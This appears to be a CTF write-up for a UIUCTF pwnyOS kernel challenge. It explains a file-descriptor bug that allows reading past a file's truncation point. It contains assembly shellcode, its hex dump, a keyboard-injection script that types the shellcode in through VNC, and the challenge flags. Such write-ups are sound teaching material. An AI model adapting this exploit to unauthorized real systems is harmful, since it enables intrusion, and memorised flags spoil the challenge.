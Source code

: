 ##  Freaky_File_Descriptors (400 points)
How does the OS know what bytes to give you when you call read? How does it keep track of how far you've read into a file?

Find an exploit that lets you read past the end of /sandb0x/freaky_fds.txt and see what was truncated!

Author: Ravi

---

This challenge was part of a series of kernel exploitation challenges using pwnyOS. There was no binary provided and we only had access through VNC. The [documentation](https://github.com/sigpwny/pwnyOS-2020-docs) for the OS helped a lot when solving these challenges. I suggest taking a look if you haven't already.

---

#### tl;dr: open, read, open, read, write

The goal of this challenge is to read the full contents of `/sandb0x/freaky_fds.txt`. After getting a shell and running `cat` on the file, we realize that we can only read a certain amount of bytes.

![](https://i.imgur.com/UxO6zhg.jpg)

Looking in the documentation, we see some interesting things about the syscalls.

![](https://i.imgur.com/Bsh6Qwy.png)

What if we try opening the file twice?

Since reading is a seeking operation, opening a second file descriptor without closing the first one might let us view the entire file!

```
bits 32

global _start

section .text
_start:
  ; open /sandb0x/freaky_fds.txt (syscall 2)
  mov ebp, 0x0804e0a0
  mov eax, 2
  lea ebx, [ebp + file]
  int 0x80

  ; read 0x100 bytes from the file descriptor (syscall 4)
  ; store the result at a temporary location (0x804e1a0)
  mov ebx, eax
  mov eax, 4
  mov edx, 0x100
  mov ecx, 0x804e1a0
  int 0x80

  ; open /sandb0x/freaky_fds.txt again (syscall 2)
  lea ebx, [ebp + file]
  mov eax, 2
  int 0x80

  ; read 0x100 bytes from the second file descriptor (syscall 4)
  ; store the result at a temporary location (0x804e1a0)
  mov ebx, eax
  mov eax, 4
  mov ecx, 0x804e1a0
  mov edx, 0x100
  int 0x80

  ; read the temporary location (0x804e1a0) (syscall 5)
  ; write the result to stdout (FD 0)
  mov eax, 5
  xor ebx, ebx
  mov ecx, 0x804e1a0
  int 0x80

file:
  db "/sandb0x/freaky_fds.txt"
data:
  db 0
```

Compile the assembly with `nasm` and use `xxd` to convert the shellcode to ASCII characters.

```bash
> nasm f.asm && xxd -p f

bda0e00408b8020000008d9d53000000cd8089c3b804000000ba00010000
b9a0e10408cd808d9d53000000b802000000cd8089c3b804000000b9a0e1
0408ba00010000cd80b80500000031dbb9a0e10408cd802f73616e646230
782f667265616b795f6664732e74787400
```

Success!

![](https://i.imgur.com/ETtOYMz.jpg)

`uiuctf{b0y_1_sur3_d0_l0v3_overfl0ws}`

Fun fact: you don't even need to exit the binexec loop to solve this! According to the documentation, we are allowed to usethe following syscalls in sandbox mode:

![](https://i.imgur.com/Ze41EvP.png)

which is all we need to run the exploit!

---

### How we solved it originally (small oops!)

We were about to go to sleep after a long night, but at 4 AM, the kernel challenges were released. After logging in and exiting the `binexec` loop, I stumbled upon the flag after trying random things. I found that running `binexec`, exiting immediately, and running `cat` on the file would display the flag.

It looked like this:

![](https://i.imgur.com/lhQg7KH.png)

We contacted the admins and recieved the `Oops` flag: `uiuctf{nice_w0rk_dicegang}`


After the CTF ended, I talked to Ravi, the challenge author, about why our exploit worked. He said that there weren't checks to see if the file descriptors were in use or if they belonged to the same file. In theory, this would occur with any file that was opened and read from, not just `binexec`.

---

This was the script I used to input through VNC:

```python
import keyboard
import time

time.sleep(3)

shellcode = """
bda0e00408b8020000008d9d53000000cd8089c3b804000000ba00010000
b9a0e10408cd808d9d53000000b802000000cd8089c3b804000000b9a0e1
0408ba00010000cd80b80500000031dbb9a0e10408cd802f73616e646230
782f667265616b795f6664732e74787400
"""

for line in shellcode.split("\n"):
    keyboard.write(line)
    keyboard.press_and_release("enter")

time.sleep(0.2)

keyboard.write("done")
keyboard.press_and_release("enter")
```

